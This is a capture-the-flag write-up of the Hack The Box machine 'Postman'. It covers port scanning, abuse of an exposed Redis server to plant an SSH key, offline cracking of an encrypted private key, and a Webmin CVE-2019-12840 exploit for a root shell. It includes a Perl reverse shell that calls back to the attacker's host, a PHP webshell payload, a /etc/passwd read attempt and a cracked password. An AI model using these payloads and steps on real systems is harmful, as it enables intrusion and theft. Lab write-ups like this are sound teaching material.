


# [Postman](https://app.hackthebox.eu/machines/215)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.160 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.160 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.160
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.160
```

The TCP quick scan does not return any open ports. 

- **NOTE:** This is not true (see further below). This was due to an error in the scan. It is likely that it was ran too quickly and the services were not ready yet on the target.

The UDP scan returns an interesting open port:


Connecting to this port just shows an interesting prompt:

```bash
nc -unv 10.10.10.160 10000
```


The `nmap` scan says to connect to TCP 10000 over HTTPS:

```
firefox https://10.10.10.160:10000/
```



This does not look custom. Try looking for an exploit:

```bash
searchsploit webmin
```


Some of these look good but the version is needed. Try getting that with `nitko`:

```bash
nikto -h https://10.10.10.160:10000/ -C all --maxtime=120s --output=nikto.txt
```



`nitko` says the server HTTP header is `MiniServ/1.910`. So the following exploits are more likely:

- https://www.exploit-db.com/exploits/46984
  - Requires valid credentials and trying easy ones does not work...
- https://www.exploit-db.com/exploits/47293
  - Same as 47230 and manual test does not work so this is unlikely
- https://www.exploit-db.com/exploits/47230
  - Seems simple to test...
- https://www.exploit-db.com/exploits/21183
  - Same as 1997
- https://www.exploit-db.com/exploits/1997
  - Not applicable for target versiona and basic test does not work

After looking at these exploits, none seem to look really promising. The full `nmap` scan returns a new port to look at with a version: 


Try looking for an exploit:

```bash
searchsploit redis
```


Now this looks good:

- https://www.exploit-db.com/exploits/47195

The above exploit is written for Metasploit and has the following `check()` function to see if the exploit will work:

```ruby
#
# Now tested on redis 4.x and 5.x
#
def check
  connect
  # they are only vulnerable if we can run the CONFIG command, so try that
  return Exploit::CheckCode::Safe unless (config_data = redis_command('CONFIG', 'GET', '*')) && config_data =~ /dbfilename/

  if (info_data = redis_command('INFO')) && /redis_version:(?<redis_version>\S+)/ =~ info_data
    report_redis(redis_version)
  end

  Exploit::CheckCode::Vulnerable
ensure
  disconnect
end
```

This can be easily tested. Install a Redis client and connect to the target:

```bash
sudo apt install nodejs npm
npm install -g redis-cli
rdcli -h 10.10.10.160 -p 6379
```

Then run the following commands:

```
CONFIG GET dbfilename
INFO
```


This verifies the target verison `4.0.9 x86_64` is vulnerable and the name of the database `dump.rdb`. A bit of reading on redis exploits helps:

- https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

Some Googling for a non-Metasploit version of this exploit brings up the following repos:

- https://github.com/vulhub/redis-rogue-getshell
- https://github.com/n0b0dyCN/redis-rogue-server

Try the exploit:

```bash
git clone https://github.com/n0b0dyCN/redis-rogue-server.git
cd redis-rogue-server/
python3 redis-rogue-server.py --lhost 10.10.14.27 --rhost 10.10.10.160 --rport 6379 --verbose
```

But it does not work? There seems to be an issue with the `MODULE` command:


Not sure what the issue is here... There are other methods to try. If the path of the webserver was known, then it could be possible to change the database location, filename, and content to make a webshell like the following:

```
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename bubba.php
SET PAYLOAD '<?php echo shell_exec($_REQUEST["c"]); ?>'
SAVE
```

But searching for this info seems to show that Webmin is not installed in a standard location and depends on PerlCGI scripts like the following script and not PHP...

- https://osdn.net/projects/sfnet_webadmin/downloads/webmin/1.910/webmin-1.910.tar.gz/
- https://www.webmin.com/deb.html
- https://www.webmin.com/faq.html

```perl
#!/usr/bin/perl -w
if (!fork()) {
  use Socket;
  $i = "10.10.14.27";
  $p = 6969;
  socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
  if (connect(S,sockaddr_in($p, inet_aton($i)))) {
   open(STDIN, ">&S");
   open(STDOUT, ">&S");
   open(STDERR, ">&S");
   exec("/bin/sh -i");
  }
}
print <<'END';
Connection: close
Content-type: text/html

END
```

Trying a LUA sandbox escape also does not work?

```
EVAL "dofile('/etc/passwd')" 0
```

It returns the following error:

```
(error) ERR Error running script (call to f_afdc51b5f9e34eced5fae459fc1d856af181aaf1): @enable_strict_lua:15: user_script:1: Script attempted to access nonexistent global variable 'dofile'
```

Next try to overwrite a MiniServ config file?

```
config set dir /etc/webmin/
config set dbfilename miniserv.conf
save
```

But this just returns a generic `ERR`??? Not sure where to go from here besides a bruteforce to find the directory being served for MiniServ to try and add a webshell too...

---

Found out the original `masscan` scan missed 2 ports (TCP 80 & TCP 22)... Always good to run a re-scan!

----

It looks like TCP 80 is open on the target as well. Start the following web scanner:

```bash
nikto -h http://10.10.10.160/ -C all --maxtime=120s --output=nikto.80.txt
```


Browse to the site manually:

```
firefox http://10.10.10.160/
```


Website looks empty. Start a directory scanner looking for PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.160/ &
```

This returns a few interesting directories:

```
/images (Status: 200)
/upload (Status: 200)
/css (Status: 200)
/js (Status: 200)
/fonts (Status: 200)
```

_Now that a web directory is given_, try the redis exploit to upload a PHP webshell:

```
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename bubba.php
SET PAYLOAD '<?php echo shell_exec($_REQUEST["c"]); ?>'
SAVE
```

But this also returns an `ERR`. Try the other directories to see if the permissions there are better:


UGH this did not work. Even trying to guess the user `postman` to trying to add SSH keys did not work... Maybe the redis account can SSH? Reset the machine (because the default `dir` has been changed) and then get the default configuration directory:

```
CONFIG GET dir
```


It seems like the redis account has SSH access (kill the admin of this machine)???  Try to add a default SSH key:

```bash
# create a new SSH key
ssh-keygen -t rsa
# copy it to the local directory
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt
# connect to target and add stage payload
rdcli -h 10.10.10.160 -p 6379 FLUSHALL
rdcli -h 10.10.10.160 -p 6379 SET bubba "$(cat key.txt)"
rdcli -h 10.10.10.160 -p 6379 CONFIG SET dir /var/lib/redis/.ssh/
# save private key to target
rdcli -h 10.10.10.160 -p 6379 CONFIG SET dbfilename "authorized_keys"
rdcli -h 10.10.10.160 -p 6379 SAVE
```

And thiese commands do not error! Try to SSH to the target:

```bash
ssh -i ~/.ssh/id_rsa redis@10.10.10.160
```


This provides access to the target but not `user.txt`... Looking for interesting files shows that the current user has a bash history?


It seems like this user is tied to the user `Matt` who has `user.txt`. Try to find the file `id_rsa.bak` or `scan.py`:

```bash
find / -iname scan.py 2>/dev/null
find / -iname id_rsa.bak 2>/dev/null
```


This looks like a password-encrypted SSH private key. Try to download it and crack it offline:

```bash
scp -i ~/.ssh/id_rsa redis@10.10.10.160:/opt/id_rsa.bak .
find / -iname ssh2john.py 2>/dev/null
/usr/share/john/ssh2john.py id_rsa.bak | cut -d ':' -f 2 > ssh.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 22911 -a 0 --quiet --potfile-disable ssh.hash rockyou.txt
```

But this results in an error

```
/usr/share/hashcat/modules/module_22911.so: cannot open shared object file: No such file or directory
```

Download and install the most recent version of hashcat:

```bash
git clone https://github.com/hashcat/hashcat.git
cd hashcat
make
./hashcat -m 22911 -a 0 --quiet --potfile-disable ../ssh.hash ../rockyou.txt
```

And this has a win:


Try these credentials over SSH:

```bash
# prep directory for SSH keys
mkdir ./ssh-target
chmod 700 ./ssh-target
cp id_rsa.bak ./ssh-target/private.key
chmod 600 ./ssh-target/private.key
# attempt SSH connection
ssh -i ./ssh-target/private.key Matt@10.10.10.160 # password computer2008
```

But this just results in a `Connection closed by 10.10.10.160 port 22` error? Try password reuse and use `su Matt` as indicated in the bash history:


Nice! That is `user.txt`. Looking at the system does not seem to show anything interesting... Try credential reuse on the WebMin server with `Matt/computer2008`:


And that allows for a login! This web server is running as `root` on the target (see a `ps -aux` output). This allows for exploit 46984 from before to be applicable now. Since the exploit is in Metasploit only, search for `CVE-2019-12840` to find the following repo:

- https://github.com/KrE80r/webmin_cve-2019-12840_poc

The source code looks simple since it is just some POST requests. Use it to get a shell as `root`:

```bash
wget https://github.com/KrE80r/webmin_cve-2019-12840_poc/raw/master/CVE-2019-12840.py
rlwrap nc -nvlp 6969
python3 CVE-2019-12840.py -u https://10.10.10.160 -p 10000 -U Matt -P computer2008 -lhost 10.10.14.27 -lport 6969
```


This can also be done manually through burpsuite:

- https://www.youtube.com/watch?v=jJnHET1o8ZQ

